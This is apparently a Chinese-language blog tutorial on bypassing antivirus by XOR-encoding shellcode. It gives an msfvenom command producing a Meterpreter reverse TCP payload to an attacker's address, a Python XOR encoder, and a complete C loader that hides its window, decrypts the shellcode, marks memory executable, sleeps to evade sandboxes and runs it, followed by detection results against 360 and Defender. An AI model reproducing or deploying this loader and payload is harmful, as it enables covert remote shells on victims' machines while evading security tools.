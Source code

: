 ```yaml
---
title: 基于对shellcode进行异或免杀
tags:
  - 免杀
---
```

### 基于对shellcode进行异或免杀

**PS:感谢倾旋大佬，**[ascotbe](https://www.secpulse.com/newpage/author?author_id=26488)**大佬的分享**

#### 0x01 环境配置

Win10 x64

Vs2019

Python 2.7.18

CS4.0

Msf

生成payload：

Msf：

| msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.176.129 LPORT=4444 -o payload.bin |
|---------------------------------------------------------------------------------------------|

#### 0x02 免杀原理

先对shellcode进行异或加密然后在代码中解密

#### 0x03 制作加密shellcode

使用倾旋大佬的代码进行xor加密

    import sys from argparse 
    import ArgumentParser, FileType

    def process_bin(num, src_fp, dst_fp, dst_raw):
        shellcode = ''
        shellcode_size = 0
        shellcode_raw = b''
        try:
            while True:
                code = src_fp.read(1)
                if not code:
                    break

                base10 = ord(code) ^ num
                base10_str = chr(base10)
                shellcode_raw += base10_str.encode()
                code_hex = hex(base10)
                code_hex = code_hex.replace('0x','')
                if(len(code_hex) == 1):
                code_hex = '0' + code_hex
                shellcode += '\\x' + code_hex
                shellcode_size += 1
            src_fp.close()
            dst_raw.write(shellcode_raw)
            dst_raw.close()
            dst_fp.write(shellcode)
            dst_fp.close()
            return shellcode_size
        except Exception as e:
        sys.stderr.writelines(str(e))

    def main():
        parser = ArgumentParser(prog='Shellcode X', description='[XOR The Cobaltstrike PAYLOAD.BINs] \t > Author: rvn0xsy@gmail.com')
        parser.add_argument('-v','--version',nargs='?')
        parser.add_argument('-s','--src',help=u'source bin file',type=FileType('rb'), required=True)
        parser.add_argument('-d','--dst',help=u'destination shellcode file',type=FileType('w+'),required=True)
        parser.add_argument('-n','--num',help=u'Confused number',type=int, default=90)
        parser.add_argument('-r','--raw',help=u'output bin file', type=FileType('wb'), required=True)
        args = parser.parse_args()
        shellcode_size = process_bin(args.num, args.src, args.dst, args.raw)
        sys.stdout.writelines("[+]Shellcode Size : {} \n".format(shellcode_size))

    if __name__ == "__main__":

        main()

执行如下命令获取payload.c 即shellcode

    python xorencode.py -s msf-payload.bin -d msf-payload.c -n 10 -r 123.txt 
    python xorencode.py -s cs-payload.bin -d cs-payload.c -n 10 -r cs-123.txt

生成结果如下：

![](https://fifteenblackslime.github.io/assets/pic/media1/0da9dfef4e4086c0e20a613b270507c7.png)

Payload.c内容为：

![](https://fifteenblackslime.github.io/assets/pic/media1/53d890566ef4831276da8a6585f37a7c.png)

#### 0x04 使用vs2019进行解密打包生成exe

倾旋大佬的代码及思路：

    申请内存时，一定要把控好属性，可以在Shellcode读入时，申请一个普通的可读写的内存页，然后再通过VirtualProtect改变它的属性-\> 可执行
具体代码如下：

    #include <Windows.h>

    // 入口函数
    int wmain(int argc, TCHAR* argv[]) {

        ShowWindow(GetConsoleWindow(), SW_HIDE);//不显示cmd窗口

        int shellcode_size = 0; // shellcode长度
        DWORD dwThreadId; // 线程ID
        HANDLE hThread; // 线程句柄
        DWORD dwOldProtect; // 内存页属性
    /* length: 800 bytes */

        unsigned char buf[] = "生成的shellcode";


        // 获取shellcode大小
        shellcode_size = sizeof(buf);

        /* 增加异或代码 */
        for (int i = 0; i < shellcode_size; i++) {
            buf[i] ^= 10;
        }
        /*
        VirtualAlloc(
            NULL, // 基址
        800,  // 大小
            MEM_COMMIT, // 内存页状态
            PAGE_EXECUTE_READWRITE // 可读可写可执行
            );
        */

        char* shellcode = (char*)VirtualAlloc(
            NULL,
            shellcode_size,
            MEM_COMMIT,
            PAGE_READWRITE // 只申请可读可写
            //原来的属性是PAGE_EXECUTE_READWRITE
        );

        // 将shellcode复制到可读可写的内存页中
        CopyMemory(shellcode, buf, shellcode_size);

        // 这里开始更改它的属性为可执行
        VirtualProtect(shellcode, shellcode_size, PAGE_EXECUTE, &dwOldProtect);

        // 等待几秒，兴许可以跳过某些沙盒呢？
        Sleep(2000);

        hThread = CreateThread(
            NULL, // 安全描述符
            NULL, // 栈的大小
            (LPTHREAD_START_ROUTINE)shellcode, // 函数
            NULL, // 参数
            NULL, // 线程标志
            &dwThreadId // 线程ID
        );

        WaitForSingleObject(hThread, INFINITE); // 一直等待线程执行结束
        return 0;
    }

![](https://fifteenblackslime.github.io/assets/pic/media1/507a365e287579cf8ec827c9b4413056.png)

生成release版本exe

使用过程中我添加了如下代码去除cmd窗口：

| ShowWindow(GetConsoleWindow(), SW_HIDE); |
|------------------------------------------|

![](https://fifteenblackslime.github.io/assets/pic/media1/75c00948267dd56d986d21f999545c3e.png)

##### 0x05免杀结果

测试杀软：360，defender

通过Msf的bin文件生成exe可以通过360检测，但无法通过defender。

通过Cobalt strike的raw文件生成exe无法通过杀软。
